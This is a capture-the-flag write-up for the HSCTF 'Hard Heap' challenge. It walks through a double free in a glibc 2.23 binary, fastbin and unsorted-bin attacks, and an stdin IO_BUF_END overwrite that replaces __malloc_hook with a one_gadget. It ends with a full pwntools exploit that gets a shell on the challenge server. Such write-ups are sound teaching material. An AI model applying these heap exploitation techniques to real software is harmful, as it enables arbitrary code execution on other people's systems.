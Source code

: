 # Hard Heap
To solve this challenge **completely** ( it means not using 0x56 size chunk which depends on ASLR ), 
you have to know `Fastbins attack`, `Unsorted bins attack` and `IO_BUF_END`.

## Checksec
```
bound7@ubuntu:~/Desktop/ctf/hard_heap$ checksec hard-heap 
[*] '/home/bound7/Desktop/ctf/hard_heap/hard-heap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Because this challenge use `glibc 2.23`, I solved this challenge at `Ubuntu 16.04`.

## Vulnerability
In '**Antisice a deet**', There is a bug that is not initialize global heap pointer to **NULL**

```
unsigned __int64 sub_CEF()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0;
  puts("Which deet would you like to antisice?");
  printf("> ");
  _isoc99_scanf("%u", &v1);
  getchar();
  if ( v1 > 0x13 )
  {
    puts("Invalid index!");
    exit(-1);
  }
  free((void *)global_202060[v1]);
  // global_202060[v1] = 0;
  return __readfsqword(0x28u) ^ v2;
}
```
So we can `double free` same heap pointer.

## Heap Address Leak
Just double free same chunk and print it.
```
free(0)
free(1)
free(0)

show(0)
heap_30 = u64(p.recv(6).ljust(8, '\x00'))
heap_base = heap_30 - 0x30
print 'heap_base : '+hex(heap_base)
```

# Libc Address Leak
Because we can `malloc` at most 0x48 size, we can't create *smallbin but not fastbin chunk*.
But here we can use `Fastbins attack`. After make **fake chunk** right before **target chunk**, we can modify **target chunk**'s size, fd, bk by allocating some fake data at **fake chunk** using `Fastbins attack`. 
I changed the size of **target chunk** to *0x91* and free this chunk to make *main_arena+88* pointer in heap memory.
```
alloc(0x20, p64(heap_base+0x20)+p64(0)*2+p64(0x31))
alloc(0x20, 'b'*0x8)
alloc(0x20, 'a'*0x8)

alloc(0x20, p64(0)+p64(0x91)+'b'*0x8) # change target chunk size value to 0x91

free(1)
show(6)
main_arena_88 = u64(p.recv(6).ljust(8, '\x00'))
```

# Get Shell
Of course, we can exploit this binary only using `fastbins attack`.
Because of ASLR, the start byte of heap chunk address changes. ( in gdb it starts with 0x55~ )
if we try to allocate data to 0x55 sized fake chunk, malloc think this chunk's `mmap_bit` is set and thus masking fake chunk's address which occurs segmentation fault. To exploit successfully only using `Fastbins attack`, the start of heap address must be 0x56 which is not reliable.
Anyway if heap address starts with 0x56, then we can use **pie_base + 0x202008** that is right before stdout, stdin, stderr pointer or **main_arena fastbin chunks** before **top chunk pointer**.

But here, i used `Unsorted bins attack` and just overwrite STDIN `IO_BUF_END` to overwrite `__malloc_hook`.
If we overwrite STDIN `IO_BUF_END`, the scanf buffer can overwrite `__malloc_hook` because `__malloc_hook` pointer is close to STDIN `IO_BUF_BASE`.
```
free(8)
alloc(0x20, p64(0)+p64(0x41)+p64(main_arena_88)+p64(io_buf_end-0x10))
alloc(0x30, p64(main_arena_88)+p64(main_arena_88))

io_stdfile_0_lock = libc_base + 3958672
io_wide_data_0 = libc_base + 3951040

payload = ''
payload += '\x0a\x31'+'\x00'*3
payload += p64(io_stdfile_0_lock)
payload += '\xff'*8 + p64(0)
payload += p64(io_wide_data_0)
payload += p64(0) * 3 + '\xff'*4+p32(0)
payload += p64(0) * 2
payload += p64(io_wide_data_0)
payload += p64(0) * 2
payload += p64(one_gadget) *2 * 22 # overwrite malloc hook to one_gadget
p.sendlineafter('> ', payload)
```

```
bound7@ubuntu:~/Desktop/ctf/hard_heap$ python ex.py 
[+] Opening connection to pwn.hsctf.com on port 5555: Done
heap_base : 0x55c8e1cd9000
main_arena+88 : 0x7f2a15a34b78
libc_base : 0x7f2a15670000
one_gadget : 0x7f2a15761147
[*] Switching to interactive mode
Enter the size of your deet: 
> $ id
UH\x89�H��dH\x8b\x04%(:id: not found
$ ls
bin
dev
flag
hard-heap
lib
lib32
lib64
libc.so.6
libc.so.6.zip
$ cat flag
hsctf{you_sice_deets_so_well_you_must_be_suchet}
```

## Full Exploit Code
```
from pwn import *

#p = process('./hard-heap')
p = remote('pwn.hsctf.com', 5555)

def choice(sel):
	p.sendlineafter('> ', str(sel))

def alloc(size, deet):
	choice(1)
	p.sendlineafter('> ', str(size))
	p.sendafter('> ', deet)

def show(index):
	choice(2)
	p.sendlineafter('> ', str(index))

def free(index):
	choice(3)
	p.sendlineafter('> ', str(index))

alloc(0x20, 'a'*0x8)
alloc(0x20, 'b'*0x8+p64(0)*2+p64(0x41))
alloc(0x28, 'c'*0x8+p64(0)*2+p64(0x21))
alloc(0x20, p64(0)+p64(0x51))
alloc(0x20, 'e'*0x8)
free(0)
free(1)
free(0)

show(0)
heap_30 = u64(p.recv(6).ljust(8, '\x00'))
heap_base = heap_30 - 0x30
print 'heap_base : '+hex(heap_base)

alloc(0x20, p64(heap_base+0x20)+p64(0)*2+p64(0x31))
alloc(0x20, 'b'*0x8)
alloc(0x20, 'a'*0x8)

alloc(0x20, p64(0)+p64(0x91)+'b'*0x8)

# 0 == 5 == 7 (0x10), 1 == 6 (0x40)
free(1)
show(6)
main_arena_88 = u64(p.recv(6).ljust(8, '\x00'))
libc_base = main_arena_88 - 3951480
malloc_hook = libc_base + 3951376
main_arena_fake = malloc_hook+0x10+0x8+0x5
io_buf_end = libc_base + 3950880
one_list = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
one_gadget = libc_base + one_list[3]
print 'main_arena+88 : '+hex(main_arena_88)
print 'libc_base : '+hex(libc_base)
print 'one_gadget : '+hex(one_gadget)
free(8)
alloc(0x20, p64(0)+p64(0x41)+p64(main_arena_88)+p64(io_buf_end-0x10))
alloc(0x30, p64(main_arena_88)+p64(main_arena_88))

io_stdfile_0_lock = libc_base + 3958672
io_wide_data_0 = libc_base + 3951040

payload = ''
payload += '\x0a\x31'+'\x00'*3
payload += p64(io_stdfile_0_lock)
payload += '\xff'*8 + p64(0)
payload += p64(io_wide_data_0)
payload += p64(0) * 3 + '\xff'*4+p32(0)
payload += p64(0) * 2
payload += p64(io_wide_data_0)
payload += p64(0) * 2
payload += p64(one_gadget) *2 * 22 # overwrite malloc hook to one_gadget

#choice(2)
p.sendlineafter('> ', payload)

p.interactive()
```

